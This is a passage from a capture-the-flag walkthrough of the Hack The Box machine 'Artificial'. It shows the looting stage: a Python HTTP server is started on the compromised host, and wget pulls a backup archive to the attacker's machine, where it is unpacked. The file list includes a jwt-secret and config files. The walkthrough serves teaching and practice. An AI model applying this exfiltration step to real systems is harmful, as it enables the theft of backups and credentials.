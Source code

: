 ### Looting

We need to read that backup file, but we don't have permissions so we will host a [Python](../../../3%20-%20Tags/Programming%20Languages/Python.md) server in the directory and `wget` from our machine:

```bash
gael@artificial:/var/backups$ python3 -m http.server 3333
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/)
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial]
└─$ wget http://artificial.htb:3333/backrest_backup.tar.gz
--2025-08-25 12:49:53--  http://artificial.htb:3333/backrest_backup.tar.gz
Risoluzione di artificial.htb (artificial.htb)... 10.10.11.74
Connessione a artificial.htb (artificial.htb)|10.10.11.74|:3333... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 52357120 (50M) [application/gzip]
Salvataggio in: «backrest_backup.tar.gz»

backrest_backup.tar.gz   100%[==================================>]  49,93M  4,79MB/s    in 12s     

2025-08-25 12:50:05 (4,19 MB/s) - «backrest_backup.tar.gz» salvato [52357120/52357120]
```

Now we extract it and read files:
-  **x**     Extract
-  **v**     Verbose
-  **f**      Filename

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial]
└─$ tar -xvf backrest_backup.tar.gz 
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```
